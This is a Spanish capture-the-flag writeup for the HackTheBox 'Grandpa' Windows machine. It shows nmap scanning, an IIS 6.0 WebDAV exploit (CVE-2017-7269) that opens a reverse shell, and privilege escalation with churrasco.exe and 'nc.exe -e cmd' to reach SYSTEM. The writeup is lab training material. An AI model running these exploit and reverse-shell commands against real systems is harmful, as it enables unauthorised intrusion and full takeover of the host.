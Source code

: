 ```yaml
---
title: HackTheBox - Grandpa
author: cotes
date: 2023-09-14 17:51:00 +0800
categories: [Writeup, HackTheBox, Easy]
tags: [Windows, 'ISS 6.0 (CVE-2017-7269)', 'Token Kidnapping Local Privilege Escalation (churrasco.exe)']
math: true
mermaid: true
image:
  path: /assets/images/HTB/Easy/Grandpa/logo.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: Grandpa Machine Logo
---
```


Máquina Windows de nivel **Easy** de HackThBox.

Técnicas usadas: **ISS 6.0 (CVE-2017-7269), Token Kidnapping Local Privilege Escalation (churrasco.exe)**

### Fase de Reconocimiento 🧣

a. Enumeramos los puertos que están abiertos.

* **`nmap -p- -sS -Pn -n <IP> -oG puertos`**

    ![](/assets/images/HTB/Easy/Grandpa/01-ports.png)

b. Vemos las versiones de los servicios que se están ejecutando en los puertos abiertos

* **`nmap -p<Puertos> -sCV <IP> -oN versiones`**

    ![](/assets/images/HTB/Easy/Grandpa/02-versions.png)

>  A diferencia de la Máquina Granny, aquí no tenemos el método **PUT** permitido, pero, tenemos el método `PROPFIND`, po lo que buscaremos algún exploit.
{: .prompt-info }

c. Nos encontramos con este [exploit](https://github.com/g0rx/iis6-exploit-2017-CVE-2017-7269/tree/master)

```bash
❯ python2 rce.py <IP Grandpa> 80 <tun0 IP> 443

❯ nc -lvnp 443                                                                                                                                                                                
Microsoft Windows [Version 5.2.3790]                                                                                                                                                          
(C) Copyright 1985-2003 Microsoft Corp.                                                                                                                                                       
                                                                                                                                                                                              
c:\windows\system32\inetsrv>
```

### Escalada de Privilegios 💹

a. La forma de escalar privilegios es la misma de la Máquina Granny

```bash
❯ ls
churrasco.exe nc.exe
---------------------------------------------------------------
C:\Temp>copy \\10.10.14.18\Share\nc.exe
C:\Temp>copy \\10.10.14.18\Share\churrasco.exe
C:\Temp>dir
09/15/2023  08:14 PM            31,232 churrasco.exe
09/15/2023  08:15 PM            36,528 nc.exe
```

b. Entablamos una reverse shell

```bash
C:\Temp>.\churrasco.exe -d "C:\Temp\nc.exe -e cmd 10.10.14.18 4445"
--------------------------------------------------------------------
❯ nc -lvnp 4445
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

C:\WINDOWS\TEMP>whoami
nt authority\system
```